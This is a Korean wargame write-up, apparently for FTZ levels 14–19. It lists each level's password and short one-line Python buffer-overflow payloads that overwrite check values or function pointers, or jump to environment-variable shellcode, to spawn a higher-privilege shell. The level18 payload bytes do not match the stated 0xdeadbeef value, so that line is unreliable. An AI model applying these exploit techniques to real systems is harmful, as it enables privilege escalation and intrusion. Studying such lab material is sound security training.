 ### level14
- pw : what that nigga want?
- fgets로 buf 입력을 받고 오버플로우를 통해 check 값을 0xdeadbeef로 만들면 level15 권한으로 쉘 실행
- gdb로 확인해보면 fgets는 입력주소로 ebp-56 전달
- 0xdeadbeef는 main+29에서 [ebp-16]과 비교 후 if문 실행
- fgets 인자로 40bytes 버퍼 채운 후 4byte를 deadbeef로 채우면 level15권한 실행될 것으로 예상
- 
```
(python -c "print 'A'*40 + '\xef\xbe\xad\xde'";cat) | ./attackme
```

### level15
- pw : guess what
- level14와 매우 유사하나 0xdeadbeef값이 채워지는게 아니라 해당 값이 들어있는 주소가 채워져야 함
- 0xdeadbeef는 main에 적혀 있으므로 해당 주소를 gdb에서 찾아서 넣어주면 됨
- 
```
(python -c "print 'A'*40 + '\xb2\x84\x04\x08'";cat) | ./attackme
```

### level16
- pw : about to cause mass
- call변수에 printit함수의 주소가 저장되고, shell함수를 실행시키면 level17권한 획득이 가능하므로 call변수를 shell함수 주소로 덮어 call()을 실행했을 때 shell함수가 실행될거라 예상
- shell 주소 : 0x80484d0
- 
```
(python -c "print 'A'*40 + '\xd0\x84\x04\x08'";cat) | ./attackme
```

### level17
- pw : king poetic
- level16과는 다르게 shell주소가 따로 없으므로 환경변수에 shell을 등록해주고 해당 주소를 찾은 뒤 call값에 덮어쓰면 됨
- export SHELL=`python -c "print '\x90'*100 + SHELLCODE"`
- 
```
(python -c "print 'A'*40 + '\xde\xfb\xff\xbf'";cat) | ./attackme
```

### level18
- pw : why did you do it
- 우선 shellout을 실행시켜야함을 알 수 있고 그럴려면 check 값을 0xdeadbeef로 만들어야 한다
- gdb를 통해 스택 구조를 살펴보면 ebp - string - check - x - count -fds - esp 순으로 쌓여있어 string에서 버퍼오버플로우를 통한 check 오염이 힘들어보인다
- 그런데 반복문 과정 중 count값을 감소시키는 과정이 있고, string[count]를 통해 마이너스 영역을 덮을 수 있을 것을 예상 가능
- 0x08을 check 크기(4)만큼 넣어 count 가 check 주소에 위치하도록 하고 0xdeadbeef를 little endian 맞춰서 전달한다
- 
```
(python -c 'print "\x08"*4+"\xef\xde\xad\xde"'; cat) | ./attackme
```

### level19
- pw : swimming in pink
- setreuid과정이 코드에 포함되어 있지 않으므로 해당 과정이 포함된 쉘코드를 환경변수 등록 후 사용
- gdb에서 buf와 ebp 거리는 40
- 
```
(python -c 'print "A"*44 + "\xd3\xfb\xff\xbf"'; cat) | ./attackme
```

